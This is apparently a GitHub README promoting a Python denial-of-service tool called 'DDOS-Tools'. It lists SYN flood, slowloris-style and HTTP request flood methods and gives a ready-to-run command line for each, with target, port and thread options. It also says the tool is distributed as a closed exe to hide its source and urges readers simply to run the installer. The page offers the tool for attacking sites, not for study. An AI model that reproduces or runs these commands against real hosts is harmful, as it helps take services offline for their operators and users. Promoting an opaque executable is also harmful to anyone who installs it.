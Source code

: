 # DDOS-Tools

✔ Legacy Hacker DDOS Attacks - Ez DDOS Attacks 

![](https://img.shields.io/badge/Language-Python-blueviolet) ![](https://img.shields.io/badge/Format-Py-red) ![](https://img.shields.io/badge/Platform-Windows%20--%20Linux-ff69b4) ![](https://img.shields.io/badge/Creator%20-Sharon%20V-informational)

<a href="https://www.youtube.com/channel/UCSUG894jzlzMkmWcahiyyXA">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white"/>
</a>

<a href="#">
  <img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white"/>
</a>

![](https://img.shields.io/badge/Methods-Attack-important)

**Methods : Synflood - Pyslow - Request**

![](https://img.shields.io/badge/How-Use-important)

**Usage Pyslow Method : python (LH)DDOS.py -d www.example.com -p 80 -T 2000 -Pyslow**
**Usage Synflood Method : python (LH)DDOS.py -d www.example.com -Synflood -T 5000 -t 10.0**
**Usage Request Method : python (LH)DDOS.py -d www.example.com -s 100 -Request

**Team : Sharon IV - Sharon VI**
The software is placed as an exe file to preserve the source code of the software

Just run the installation file :)

![](https://s2.uupload.ir/files/bandicam_2023-03-25_13-15-51-262_rhln.jpg)
